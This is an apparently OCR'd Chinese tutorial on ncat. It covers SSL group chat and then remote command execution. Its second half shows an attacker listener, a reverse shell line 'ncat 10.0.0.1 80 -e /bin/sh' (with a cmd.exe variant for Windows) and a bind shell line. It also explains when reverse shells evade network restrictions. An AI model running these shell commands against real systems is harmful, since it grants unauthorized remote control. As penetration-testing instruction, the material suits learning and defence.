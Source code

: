 # SSL 加密群聊

Ncat 的聊天功能允许多个用户通过网络进行协作。为此，设置一个标准的 SSL 监听器并添加`--chat`参数。该系统将被视为主持对话的聊天服务器。

```
(Server) » $ ncat --ssl -lp 4443 --chat
```

后续客户端可以连接到主机，并使用主机名、端口和`--ssl`参数与其他用户交互:

```
(Client 1) » $ ncat 10.0.0.1 4443 --ssl
<announce> 10.0.0.2 is connected as <user5>.
<announce> 10.0.0.3 is connected as <user6>.
Hi Chat!
```

如图所示，ncat 支持多用户连接:

```
(Client 2) » $ ncat 10.0.0.1 4443 --ssl
<announce> 10.0.0.3 is connected as <user6>.
<user5> Hi Chat!
```

# 远程命令执行

Ncat 使得在建立连接后启动远程命令变得容易。这可以通过在命令后添加`-e`或`—-exec`参数来实现。

ncat 的许多官方文档都用例子展示了这种功能，例如:`ncat -l 23 -e "/bin/echo Hello”`。但是，这可以适应目标系统上的完整远程外壳。

## 反向外壳

用 ncat 演示的第一种壳被称为**反向壳**。这需要攻击者设置一个标准的监听器并等待传入的连接。

```
(Hacker) » $ ncat -lp 80
```

客户端或目标然后连接回攻击者，同时转发一个`/bin/sh` shell。这将授予监听主机执行完整命令的权限。
***注意*** :从 Windows 目标尝试时需要`-e cmd.exe`。

```
(Target) » $ ncat 10.0.0.1 80 -e /bin/sh
```

在传入网络流量受到限制的情况下，或者使用绑定外壳公开监听端口风险太大的情况下，例如在外部网络上，反向外壳非常有用。

## 绑定外壳

如前所述，使用 ncat 获得远程命令执行的第二种方法是通过**绑定外壳**。这并不要求攻击者配置 ncat 监听器。相反，这一职责落在目标上，即配置一个侦听器并提供对连接客户端的访问。

如下所示，目标系统使用`-e`参数创建一个标准的 ncat 监听器来转发`/bin/sh` shell。

```
(Target) » $ ncat -lp 80 -e /bin/sh
```
